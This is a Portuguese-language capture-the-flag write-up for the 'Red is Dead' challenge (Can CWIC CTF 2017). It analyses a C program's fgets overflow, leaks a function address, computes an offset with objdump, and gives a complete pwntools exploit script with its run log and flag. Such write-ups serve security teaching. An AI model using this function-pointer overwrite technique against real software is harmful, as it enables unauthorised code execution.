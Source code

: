 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```

Analisando a estrutura `user` nós se depara com uma variável color [8 bytes], uma variável name [8 bytes] e um ponteiro [8 bytes]
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa para nós, vamos pular e ir para as funções `success_knight` e `success_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma `success_knight` e uma `success_king`, essa foi fácil, a função success king é a função final ontde entrega a
flag, e a função success_knight é apenas um caminho que não vai da em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agr virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que nos retornará alguns vazamentos de endereços

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, Nós poderia começar com o nome `Arthur` e nós iria para `check_king` nós realizaríamos a substituição do usuário seguinte, mas não havia como ir para o seguinte check!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para nós ir para o `success king` isso era impossível, pois o comprimento da string era (31) era maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro, e o próximo usuário iria para dead.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

`000000000040084e g     F .text  000000000000002e              success_king`
`000000000040082a g     F .text  0000000000000024              success_knight`

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

``` python
from pwn import *
import struct
import time

def p(x):
    return struct.pack("<q", x)

addr = 0
offset = -37

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[*] Triggering leak...")
r.send('knightAA' + '\n')
time.sleep(0.3)

print("[*] Retrieving address of check_knight...")
resp = r.recv(1024).strip()
addr = resp[8:14] + '\x00\x00'
addr = struct.unpack("<q", addr)[0]

print("[*] Calculating address of success_king...")
addr += offset

print("[*] Calling success_king...")
r.send('red\0' + '0x00' + '0x000000' + p(addr))
time.sleep(0.3)

resp = r.recv(1024)
print(resp[resp.find('FLAG'):])
r.close()
```

``` c
[+] Opening connection to 159.203.38.169 on port 5683: Done
[*] Triggering leak...
[*] Retrieving address of check_knight...
[*] Calculating address of success_king...
[*] Calling success_king...
FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}

[*] Closed connection to 159.203.38.169 port 5683
```

`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`

Download da challenge: https://www.sendspace.com/file/m9mm2s
Agradecimentos ao Mateus Pimentel
